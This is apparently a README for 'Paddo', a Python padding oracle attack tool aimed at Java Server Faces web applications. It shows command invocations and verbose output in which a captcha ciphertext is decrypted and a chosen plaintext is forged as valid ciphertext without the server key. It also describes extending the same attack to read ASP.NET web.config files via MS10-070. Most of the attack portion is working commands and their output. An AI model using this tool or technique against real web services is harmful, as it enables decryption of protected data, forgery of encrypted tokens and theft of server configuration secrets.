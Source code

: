 Paddo
=====

Audit and attack the underlying cryptography in CBC encrypted blocks for decrypting them or re-encrypting any plaintext without knowing the secret key. An "oracle" is when a service or machine receives a ciphertext, decrypts it and then replies to the sender whether the padding is correct or not. At Eurocrypt 2002, Vaudenay introduced a powerful side-channel attack against CBC-mode encryption with PKCS#5. This framework currently attacks Java Server Faces vulnerable versions and allows to extend current methods for beeing used in customized web applications.

For example:

http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO

Here the ciphertext is: OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO (Which is the real value of the "security word" but encrypted)

lucas@debian:~$ ./paddo.py -t http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO -p securityWord
[+] Detecting a Padding Oracle in parameter: securityWord
[+] Encoding Detected: base64
[+] Blocksize Detected: 8 bytes
[!] Sending our first block nulled payload
[!] JSF vulnerable to a Padding Oracle attack
[+] Decrypting block #: 2
[+] Original Block: f5840d9c7c69e614
[+] IV: 39d5dd57ff7ac81b
[+] Padding !
[!] Invalid Padding: 0000000000000000
[...]
[!] Valid Padding: bbd452917164eb19 5b0f858162db108e
[!] Intermediate Block: b3dc5a99796ce311
[*] Block decrypted: 4658570505050505
[!] Plaintext: 05190,ZRFXW

We successfully decrypted our ciphertext !

Paddo attemps to decrypt valid ciphertext on a service which acts as an "oracle". Obviously this service must know the key of the ciphertext since is the one who will check for proper padding after decrypting it due to PKCS#5.

Also paddo supports re-encryption (CBC-R), that is encrypting a custom plaintext with the server key without really knowing it. 

For example encrypting a "LUCAS" with paddo:

lucas@debian:~$ ./paddo.py -t http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO -p securityWord --encrypt 05555,LUCAS
[...]
[*] Encrypting: 05555,LUCAS
[...]
[!] Valid Padding: 65b4cdb2be1e37d8 2b5c874bd1c94191
[!] Intermediate Block: 6dbcc5bab6163fd0
[*] Block decrypted: 6dbcc5bab6163fd0
[!] Ciphertext: XYnwj4M6c4UrXIdL0clBkQAAAAAAAAAA

If the Cookie image is feed by the securityWord parameter, we will see the word LUCAS in the CAPTCHA.

http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=XYnwj4M6c4UrXIdL0clBkQAAAAAAAAAA

This is the core of http://technet.microsoft.com/en-us/security/bulletin/MS10-070.

Briefly, you can encrypt a "web.config" string with the server secret key, and then feed the WebResource.axd script for fetching the content of that file. Currently paddo only attacks Java Server Faces, but it may be extended to also support ASP.NET since the attack is very similar.
